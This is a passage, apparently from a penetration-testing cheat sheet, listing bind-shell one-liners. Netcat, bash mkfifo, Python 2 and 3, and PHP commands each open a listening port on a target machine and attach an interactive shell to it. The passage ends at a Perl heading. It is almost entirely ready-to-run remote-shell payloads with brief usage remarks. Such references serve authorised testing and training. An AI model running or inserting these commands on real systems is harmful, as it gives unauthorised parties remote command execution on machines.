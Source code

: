 A bind shell opens a listening port on the target machine, and the attacking machine connects to it. This is useful when the target machine is directly accessible (e.g., no firewall blocking inbound connections to the chosen port).

### Bind Shells (Target Machine)

Execute these commands on the target machine to open a listening port. Replace `<PORT>` with the desired port on the target.

#### Netcat

```bash
nc -lvnp <PORT> -e /bin/sh
```
* `-e`: Execute program after connect (often disabled in compiled versions). For more stable shells, use `mkfifo` method below.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -lvnp <PORT> >/tmp/f
```

#### Bash

```bash
mkfifo /tmp/backpipe
/bin/bash < /tmp/backpipe | nc -lvnp <PORT> > /tmp/backpipe
```

#### Python

##### Python 2
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("",<PORT>));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
```

##### Python 3
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("",<PORT>));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);subprocess.call(["/bin/bash","-i"]);'
```

#### PHP

```php
php -r '$sock = socket_create(AF_INET, SOCK_STREAM, SOL_TCP);socket_bind($sock, "0.0.0.0", <PORT>);socket_listen($sock, 1);$client = socket_accept($sock);socket_write($client, "Connected!\n");$pid = pcntl_fork();if ($pid == -1) { die("could not fork"); } else if ($pid) { socket_close($client);socket_close($sock);} else { socket_close($sock);socket_dup($client, 0);socket_dup($client, 1);socket_dup($client, 2);passthru("/bin/sh -i");}'
```

#### Perl
